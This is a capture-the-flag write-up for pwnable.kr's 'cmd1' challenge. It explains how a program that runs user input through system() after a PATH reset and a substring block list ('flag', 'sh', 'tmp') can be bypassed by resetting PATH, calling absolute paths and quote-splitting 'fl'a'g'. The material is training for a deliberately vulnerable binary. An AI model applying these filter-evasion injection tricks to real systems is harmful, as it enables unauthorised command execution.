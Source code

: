 ## pwn : cmd1 [writeup]

Challenge from [pwnable.kr](https://pwnable.kr/)

**In this challenge** We have this code :

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

We need this code to run the command `cat flag`:
```c
system( argv[1] );
```

So we have to put in our argv
```bash
cat flag
```

**This way ?**
```bash
./cmd1 "cat flag"
```

**Wrong!**

Because this line 
```c
putenv("PATH=/thankyouverymuch");
```
will set an env variable `PATH` to `/thankyouverymuch`
`PATH` is an environment variable that tells the shell which directory to search for executable files.

understand more about environment variables [HERE](https://medium.com/towards-data-engineering/understanding-the-path-variable-in-linux-2e4bcbe47bf5#:~:text=The%20PATH%20variable%20in%20Linux%20is%20an%20environment%20variable%20that,printenv%20%7C%20grep%20PATH) 

after we understand the problem let's Solve it.

**Steps To Solve**

1. Get the PATH env value by using `env` command :
![cmd1](https://i.imgur.com/lASMcQt.png)

2. Now Before executing `cat flag` we want to set our `PATH` variable to it's value, in our case :
```bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
3. Lets give the program our export variable :
```bash
./cmd1 "export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin' && cat flag"
```
4. But why we didn't get the flag yet ?
- because of this function `filter`
```c
if(filter(argv[1])) return 0;
```

```c
int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
```

The function `filter` checks if a given command string (cmd) contains any of the substrings `"flag"`, "`sh"`, or `"tmp"`. If any of these substrings are found, the variable r is incremented by one for each match.

So it our case it returns 1 because our `argv[1]` contains `flag`.

to solve this i did a simple trick :
```bash
./cmd1 "export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin' && cat fl'a'g"
```

I addeed `''` to flag `fl'a'g` because it will expand later on to `flag`.

Or :
```bash
./cmd1 "/bin/cat fl'a'g"
```

end.
